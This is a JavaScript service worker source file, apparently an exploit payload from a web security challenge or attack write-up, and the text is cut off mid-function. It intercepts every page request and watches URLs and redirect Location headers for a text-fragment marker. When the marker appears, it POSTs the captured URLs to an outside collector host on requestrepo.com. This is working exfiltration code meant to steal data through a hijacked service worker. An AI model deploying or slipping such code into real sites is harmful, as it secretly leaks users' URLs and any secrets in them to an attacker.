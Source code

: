 `sw.js`
```js
var document;
function $() {
  return {
    ready: () => {}
  }
};

const SPECIAL_STRING = ':~:';
const BEACON_ENDPOINT = '//cc426f7n.requestrepo.com';

self.addEventListener('install', (event) => {
  console.log('Service Worker: Installing...');
  event.waitUntil(self.skipWaiting());
});

self.addEventListener('activate', (event) => {
  console.log('Service Worker: Activating...');
  event.waitUntil(self.clients.claim());
});


self.addEventListener('fetch', (event) => {
  const requestUrl = event.request.url;
  let shouldSendBeacon = false;
  let triggerReason = '';
  let triggerValue = '';

  if (requestUrl.includes(SPECIAL_STRING)) {
    shouldSendBeacon = true;
    triggerReason = 'request_url';
    triggerValue = requestUrl;
  }

  event.respondWith(
    fetch(event.request)
      .then(response => {
        const responseClone = response.clone();

        const responseUrl = responseClone.url;
        const locationHeader = responseClone.headers.get('Location');

        if (!shouldSendBeacon && responseUrl.includes(SPECIAL_STRING)) {
          shouldSendBeacon = true;
          triggerReason = 'response_url';
          triggerValue = responseUrl;
        }

        if (!shouldSendBeacon && locationHeader && locationHeader.includes(SPECIAL_STRING)) {
          shouldSendBeacon = true;
          triggerReason = 'location_header';
          triggerValue = locationHeader;
        }
        
        if (shouldSendBeacon) {
          try {
            fetch(BEACON_ENDPOINT, {
              method: 'POST',
              body: JSON.stringify({triggerReason,triggerValue,original_request_url:requestUrl})
            });
          } catch (e) {
            console.error('SW: Failed to send beacon:', e);
          }
```